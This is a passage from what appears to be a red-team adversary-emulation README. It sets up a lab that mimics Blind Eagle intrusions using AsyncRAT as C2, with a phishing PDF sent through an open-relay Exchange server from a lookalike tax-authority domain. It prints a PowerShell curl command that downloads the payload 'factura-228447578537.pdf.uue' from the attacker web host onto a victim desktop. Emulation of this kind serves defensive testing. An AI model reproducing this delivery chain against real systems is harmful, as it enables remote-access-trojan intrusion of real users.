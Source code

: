 # Scenario Overview

Legend of symbols:

* :bulb: - callout notes
* :heavy_exclamation_mark: - extremely important note
* :arrow_right: - Switching to another session
* :o: - Sign out of something

---
This scenario emulates Blind Eagle TTPs based on several malware specimens either
used by or associated with the Blind Eagle actors:

1. AsyncRAT

---

## Step 0 - Setup

### :scroll: Overview

This emulation leverages AsyncRAT as a C2 server, and an attacker controlled web server to host and deliver two loaders, an injector, and the final AsyncRAT payload.
AsyncRAT server is a Windows .NET GUI based program and will run on an attacker controlled Windows Machine. A second Ubuntu machine will be used as
attacker infrastructure - we use Python to host a simple web server with a directory structure that aligns with CTI and hosts payloads.

:heavy_exclamation_mark: This emulation plan assumes the infratructure found in [setup](../Resources/Setup/README.md) has been completed. If this has not been
done then IP addresses and URLs may change.

:bulb: During the emulation the Exchange server `mail.bancomurcielago.com` was configured as an open relay and an email from `notificacion@dian-info.com` was sent with the PDF [Notificacion De Pago](../Resources/Binaries/Notificacion%20De%20Pago.pdf) attached from the attacker web machine using the Linux `sendemail` program. A corresponding DNS entry for `dian-info.com` was created on the Active Directory Domain Controller `canario` was also created so that the link contained in the PDF would resolve properly.

:heavy_exclamation_mark: If you do not wish to perform these steps downloading the payload `factura-228447578537.pdf.uue` from Attacker Web `192.168.0.5` to Desk1 `10.1.0.5` will also suffice - you can perform the following PowerShell command from a PowerShell prompt on Desk1 during preflights:

```powershell
curl http://192.168.0.5/factura-228447578537.pdf.uue -o ~\Downloads\factura-228447578537.pdf.uue
```

---

### ☣️ Procedures

* :bulb: RDP, do not SSH, to the Windows Attack Platform `192.168.0.4` hosting the C2 server.

* Open a new terminal window and navigate to where you previously cloned the repo in [setup](../Resources/Setup/README.md). Start the AsyncRAT server:
